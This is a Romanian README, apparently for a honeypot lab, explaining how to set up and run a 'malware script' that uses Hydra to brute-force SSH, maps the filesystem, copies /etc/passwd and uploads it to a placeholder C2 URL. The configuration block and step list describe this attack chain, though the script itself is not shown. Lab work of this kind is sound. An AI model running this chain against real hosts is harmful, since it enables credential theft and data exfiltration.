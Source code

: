 # Malware VM Setup

Acest README descrie setup-ul necesar pentru rularea scriptului de malware care se conectează la VM-ul HoneypotProxy și trimite fișiere către serverul C2.

---

## 1. Dependențe Python

Scriptul folosește următoarele librării Python:

- `paramiko` – pentru SSH
- `requests` – pentru upload către serverul C2

Instalează-le astfel:

```bash
sudo apt update
sudo apt install python3-pip -y
pip3 install paramiko requests
````

---

## 2. Hydra

Scriptul foloseste Hydra pentru a afla parola SSH:

```bash
sudo apt install hydra -y
```

* Asigură-te că fișierul de parole (`/path/to/passwords.txt`) există și conține parolele pe care vrei să le testezi.

---

## 3. Configurarea scriptului

Editează variabilele din scriptul `malware_script.py`:

```python
HONEYPOT_HOST = "0.0.0.0"   # IP-ul HoneypotProxy
HONEYPOT_USER = "name"            # User valid pe HoneypotProxy
REMOTE_FILE = "/etc/passwd"       # Fișier de extras
LOCAL_FILE = "passwd"             # Fișier local rezultat
C2_URL = "https://<C2_IP>:5000/upload"  # URL-ul serverului C2
```

---

## 4. Rulare script

Rulează manual scriptul:

```bash
python3 malware_script.py
```

* Scriptul va:

  1. Rula Hydra pentru a afla parola SSH (dacă este configurat).
  2. Conecta la HoneypotProxy prin SSH și explora structura sistemului de fișiere.
  3. Descărca fișierul specificat (`REMOTE_FILE`).
  4. Trimite fișierul către serverul C2.

---

## 5. Rețea și firewall

* Asigură-te că VM-ul malware poate accesa HoneypotProxy pe **portul 22 (SSH)**.
* Dacă serverul C2 este local, asigură-te că portul 5000 nu e blocat de firewall.

---

## 6. Fișiere rezultate

* `filesystem_map.txt` – structura sistemului de fișiere explorată.
* `passwd` – fișierul copiat de pe HoneypotProxy.

---

